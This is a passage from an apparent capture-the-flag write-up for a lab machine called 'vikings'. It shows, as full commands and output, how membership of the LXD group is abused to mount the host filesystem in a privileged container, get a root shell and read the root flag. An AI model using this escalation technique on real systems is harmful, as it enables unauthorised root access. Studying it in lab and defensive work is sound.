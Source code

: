 And there are our SSH creds, for **floki**.

### privesc
Now it seems the creator of this box probably intended for us to do this move to another user with some more CTFy stuff, but he/she also left *our* user as part of the LXD group. So why not use it?

{% highlight shell %}
floki@vikings:/tmp$ lxc image import alpine-v3.14-x86_64-20210910_2324.tar.gz --alias alpine
Image imported with fingerprint: 1b9b6768ec27c8c3e20e09ccd8c1f3bc6a4a9e55b0a858926545c4ad3c88562b
floki@vikings:/tmp$ lxc image list
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | 1b9b6768ec27 | no     | alpine v3.14 (20210910_23:24) | x86_64 | 3.10MB | Sep 11, 2021 at 3:29am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
floki@vikings:/tmp$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
The requested storage pool "default" already exists. Please choose another name.
Name of the new storage pool [default=default]: whatever
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
The requested network bridge "lxdbr0" already exists. Please choose another name.
What should the new bridge be called? [default=lxdbr0]: something
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
Error: Failed to create network 'something': open /proc/sys/net/ipv6/conf/something/autoconf: no such file or directory
floki@vikings:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
floki@vikings:/tmp$ lxc list
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
floki@vikings:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
floki@vikings:/tmp$ lxc start privesc
floki@vikings:/tmp$ lxc exec privesc /bin/sh
~ # cd /mnt/root/root
/mnt/root/root # id;hostname;date
uid=0(root) gid=0(root)
privesc
Sat Sep 11 03:31:25 UTC 2021
/mnt/root/root # cat root.txt
f0b98d4387ff6da77317e582da98bf31
/mnt/root/root #